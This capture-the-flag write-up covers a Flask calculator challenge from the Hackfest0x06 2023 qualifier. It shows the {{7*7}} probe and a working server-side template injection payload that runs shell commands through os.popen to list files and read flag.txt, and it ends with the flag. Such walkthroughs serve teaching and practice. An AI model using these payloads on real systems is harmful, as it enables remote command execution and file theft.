



#Hackfest0x06 quals 2023
> Aseng has just created a simple web-based calculator program.
Come on, try Aseng's calculator program! ^ -^)b

## About the Challenge
Based on the challenge description, there is a website which is a simple calculator program. Let's see that.


## How to solve?
Hmm, a clue that looks suspicious is `calculator`, maybe it refers to a common vulnerability on the web, namely SSTI vulnerability. Let's try the simplest one, namely `{{7*7}}`



And yes, the website is vulnerable to SSTI python injection and we can exploit it.
Here's the payload.

```
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('ls -al')['read']()}}
```



We found that there is `flag.txt` in the `/` directory, let's change the payload.
```
{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat ../flag.txt')['read']()}}
```



And voila, we get the flag.

```
Hackfest0x06{1_l0v3_Flask_but_1_hate_sn4ke__it5_call3d_SSTI_btw_cheers}
```
